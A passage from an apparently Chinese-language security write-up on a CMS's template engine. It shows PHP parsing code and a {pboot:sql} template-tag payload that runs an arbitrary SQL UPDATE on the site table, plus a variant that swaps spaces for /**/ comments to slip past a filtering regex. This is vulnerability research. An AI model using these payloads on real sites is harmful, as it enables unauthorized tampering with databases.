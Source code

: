 ```

                $pagenum = defined('PAGE') ? PAGE : 1;
                $key = ($pagenum - 1) * $num + 1;
                foreach ($data as $value) { // 按查询数据条数循环
                    $one_html = $matches[2][$i];
                    for ($j = 0; $j < $count2; $j ++) { // 循环替换数据
                        $params = $this->parserParam($matches2[2][$j]);
                        switch ($matches2[1][$j]) {
                            case 'n':
                                $one_html = str_replace($matches2[0][$j], $this->adjustLabelData($params, $key) - 1, $one_html);
                                break;
                            case 'i':
                                $one_html = str_replace($matches2[0][$j], $this->adjustLabelData($params, $key), $one_html);
                                break;
                            default:
                                if (isset($value->{$matches2[1][$j]})) {
                                    $one_html = str_replace($matches2[0][$j], $this->adjustLabelData($params, $value->{$matches2[1][$j]}), $one_html);
                                }
                        }
                    }
                    $key ++;
                    $out_html .= $one_html;
                }
                $content = str_replace($matches[0][$i], $out_html, $content);
            }
        }
        return $content;
    }
```

其中有一处安全过滤

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4icV1ekOo8M7QE9VHLc5o59feUAh66zIvnC8YIa5KXicquQqFE1GTDXia0sPngRLKGvyuqLJibcib6sNw/640?wx_fmt=png)

sql 语句不允许对 ay_user 与 ay_member 两个表进行操作，但是不影响我们写标签到数据库；接着看该段代码，其中的重点在 $this->parserParam($matches[1][$i]);，跟进该方法

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4icV1ekOo8M7QE9VHLc5o59n8FvZ199ib6Mh9CxkI8f0VZcjN974wxJxkWc1t8NOs4qiabohJEbtBNQ/640?wx_fmt=png)

我们打印一下解析后的内容，使用如下标签来测试

```
{pboot:sql sql=update ay_site set copyright= 0x68656c6c6f where id = 1;#}11{/pboot:sql}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4icV1ekOo8M7QE9VHLc5o59ibtCO3MpBxjHNKfoonmcOibezVziazcf6loDDjFh8J9l6WOS0o1Kz7aqw/640?wx_fmt=png)

语句没有被正确的解析出来，仔细查看源码应该是被分割语句的正则匹配到了，尝试将空格替换成注释

```
{pboot:sql sql=update/**/ay_site/**/set/**/copyright=/**/0x68656c6c6f/**/where/**/id/**/=/**/1;#}11{/pboot:sql}
```
